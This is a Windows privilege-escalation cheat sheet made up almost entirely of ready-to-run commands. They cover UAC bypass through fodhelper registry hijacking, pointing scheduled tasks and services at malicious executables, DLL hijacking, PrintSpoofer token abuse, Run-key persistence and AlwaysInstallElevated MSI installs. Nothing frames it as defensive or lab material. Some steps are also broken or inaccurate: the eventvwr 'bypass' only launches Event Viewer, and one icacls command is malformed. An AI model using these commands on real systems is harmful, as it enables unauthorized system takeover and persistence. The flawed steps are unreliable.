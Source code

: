 # User Account Control (UAC) Bypass

#### Check UAC Status
- To determine if UAC is enabled:
    ```cmd
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
    ```
    - `EnableLUA`: 1 = UAC enabled, 0 = UAC disabled.
    
- To check the consent prompt behavior:
    ```cmd
    reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
    ```

#### Bypass UAC via `eventvwr.exe`
1. Launch Event Viewer:
    ```cmd
    eventvwr
    ```
2. Event Viewer runs with elevated privileges. From here, launch a command prompt or PowerShell with elevated privileges.

#### Bypass UAC via `fodhelper.exe`
1. Add a registry key to hijack the flow:
    ```cmd
    reg add HKCU\Software\Classes\ms-settings\shell\open\command /d "cmd.exe" /f
    reg add HKCU\Software\Classes\ms-settings\shell\open\command /v "DelegateExecute" /f
    ```
2. Execute `fodhelper.exe` to open a command prompt with elevated privileges:
    ```cmd
    fodhelper.exe
    ```

# Scheduled Task Exploitation

#### Create a Scheduled Task
- Create a task that runs with SYSTEM privileges:
    ```cmd
    schtasks /create /tn "<TaskName>" /tr "cmd.exe /c <command>" /sc onlogon /ru system
    ```

#### Modify an Existing Task
- Modify a task to run with a malicious payload:
    ```cmd
    schtasks /change /tn "<TaskName>" /tr "C:\path\to\malicious.exe"
    ```

#### List All Scheduled Tasks
- View all scheduled tasks and their detailed information:
    ```cmd
    schtasks /query /fo LIST /v
    ```

#### Exploit Writable Scheduled Tasks
1. Find tasks with writable permissions:
    ```cmd
    icacls "C:\Windows\System32\Tasks\<TaskName>"
    ```
2. If writable, modify the task’s executable path to point to a malicious executable:
    ```cmd
    schtasks /change /tn "<TaskName>" /tr "cmd.exe /c <malicious_script>"
    ```

# Service Exploitation

#### List Services and Their Executables
- Show services and their associated executables:
    ```cmd
    wmic service get name,pathname,displayname,startmode
    ```

#### Unquoted Service Path Exploitation
1. Check for unquoted service paths:
    ```cmd
    wmic service get name,displayname,pathname,startmode | findstr /i "C:\Program Files" | findstr /v """
    ```

2. If unquoted and vulnerable, place a malicious executable in the path with the same name as the first part of the directory.

#### Exploit Writable Service Executables
1. Check permissions of service executables:
    ```cmd
    icacls "<Path\To\ServiceExecutable>"
    ```
2. If writable, replace it with a malicious executable.

# DLL Hijacking

#### Search for DLL Hijacking Opportunities
1. Identify DLLs loaded by services or applications:
    ```cmd
    tasklist /m
    ```
2. Check if any loaded DLLs are in writable directories, using:
    ```cmd
    icacls "<Path\To\DLL>"
    ```

#### Exploit DLL Hijacking
- Replace a writable DLL with a malicious one, and restart the service or application that loads it.

# Token Manipulation

#### List Privileges
- Check current user privileges:
    ```cmd
    whoami /priv
    ```

#### Exploit SeImpersonatePrivilege
- If SeImpersonatePrivilege is available, use a tool like PrintSpoofer to escalate to SYSTEM:
    ```cmd
    PrintSpoofer.exe -i -c cmd
    ```

# Registry Exploitation

#### Autorun Program via Registry
1. Add a malicious executable to the startup registry:
    ```cmd
    reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <MaliciousKey> /t REG_SZ /d "C:\path\to\malicious.exe" /f
    ```

#### Abusing AlwaysInstallElevated
1. Check if AlwaysInstallElevated is enabled:
    ```cmd
    reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```

2. Exploit AlwaysInstallElevated by creating a malicious MSI:
    ```cmd
    msiexec /quiet /qn /i C:\path\to\malicious.msi
    ```

# File System Exploitation

#### Search for Writable Files
- Find all writable files and directories:
    ```cmd
    icacls C:\ /findstr /i "Everyone:(F)"
    ```

#### Modify Writable Files for Privilege Escalation
- Replace a writable file or script with a malicious executable or script:
    ```cmd
    echo "malicious code" > C:\path\to\writable_file.bat
    ```
